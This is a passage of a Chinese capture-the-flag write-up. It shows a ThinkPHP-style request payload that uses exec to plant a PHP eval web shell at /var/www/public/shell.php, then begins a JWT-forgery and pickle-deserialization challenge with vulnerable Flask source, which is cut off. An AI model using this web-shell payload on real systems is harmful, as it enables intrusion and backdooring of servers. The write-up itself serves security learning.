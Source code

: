 payload

> GET：?s=captcha&test=-1
> POST：_method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo ‘<?php eval($_POST['shell']);?>’ > /var/www/public/shell.php

蚁剑连接
 ![在这里插入图片描述](assets/2503473c83904c739428cbc250489dac.png)

### Ye’s Pickle（jwt伪造、pickle反序列化）

> 考点：python_jwt的CVE-2022-39227、pickle反序列化

题目给了附件，我们分析一下

```python
# -*- coding: utf-8 -*-
import base64
import string
import random
from flask import *
import jwcrypto.jwk as jwk
import pickle
from python_jwt import *
app = Flask(__name__)

def generate_random_string(length=16):
    characters = string.ascii_letters + string.digits  # 包含字母和数字
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string
app.config['SECRET_KEY'] = generate_random_string(16)
key = jwk.JWK.generate(kty='RSA', size=2048)
@app.route("/")
def index():
    payload=request.args.get("token")
    if payload:
        token=verify_jwt(payload, key, ['PS256'])
```